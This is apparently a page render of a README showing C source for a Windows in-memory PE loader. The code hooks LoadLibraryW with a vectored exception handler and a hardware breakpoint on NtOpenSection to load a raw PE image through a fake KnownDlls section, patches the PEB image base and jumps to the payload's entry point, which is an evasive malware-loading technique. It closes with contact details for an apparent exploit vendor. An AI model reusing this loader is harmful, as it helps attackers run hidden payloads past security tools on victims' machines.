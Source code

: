 ```
    lwe.pZwCreateSection         = (TD_NtCreateSection)         GetProcAddress(ntdll, "NtCreateSection");
    lwe.pZwUnmapViewOfSection    = (TD_NtUnmapViewOfSection)    GetProcAddress(ntdll, "NtUnmapViewOfSection");
    lwe.pZwOpenSection           = (ULONG_PTR)                  GetProcAddress(ntdll, "NtOpenSection");
    lwe.pZwMapViewOfSection      = (TD_NtMapViewOfSection)      GetProcAddress(ntdll, "NtMapViewOfSection");
    lwe.pZwClose                 = (ULONG_PTR)                  GetProcAddress(ntdll, "NtClose");
    lwe.pZwQueryObject           = (TD_NtQueryObject)           GetProcAddress(ntdll, "NtQueryObject");
    //init required strings
    lwe.pRtlCreateUnicodeString(&lwe.Directory,   L"\\KnownDlls");
    lwe.pRtlCreateUnicodeString(&lwe.Directory32, L"\\KnownDlls32");
    lwe.pRtlCreateUnicodeString(&lwe.DllName, DLL_NAME);

    //create image section
    if(!LdrCreateImageSection(&lwe, rawData)){
      DPRINT("Unable to create Image section from raw PE. Something wrong...");
      return -1;
    }

    lwe.status = ZwOpenSection;
    // add veh handler
    PVOID hVeh = AddVectoredExceptionHandler(1, veh);
    // set hwbp
    prepare(lwe.pZwOpenSection, NULL, &lwe);
    //lesgoo
    hModule = LoadLibraryW(DLL_NAME);

    RemoveVectoredExceptionHandler(hVeh);

    DPRINT("Module base: %p", hModule);

    //fix if it's .exe
    if(!lwe.is_dll) {
      DPRINT("Your file is .exe, so it's required to update ImageBaseAddress in PEB with loaded .exe");
      NtCurrentTeb()->ProcessEnvironmentBlock->ImageBaseAddress = hModule;
      entrypoint = RVA2VA(PVOID, hModule, lwe.entrypoint);
      DPRINT("Executing .exe entrypoint: %p", entrypoint);
      ((void(*)())entrypoint)();
    }

    return 0;

}
```
<img align="left" src="https://injectexp.dev/assets/img/logo/logo1.png">
Contacts:
injectexp.dev / 
pro.injectexp.dev / 
Telegram: @Evi1Grey5 [support]
Tox: 340EF1DCEEC5B395B9B45963F945C00238ADDEAC87C117F64F46206911474C61981D96420B72
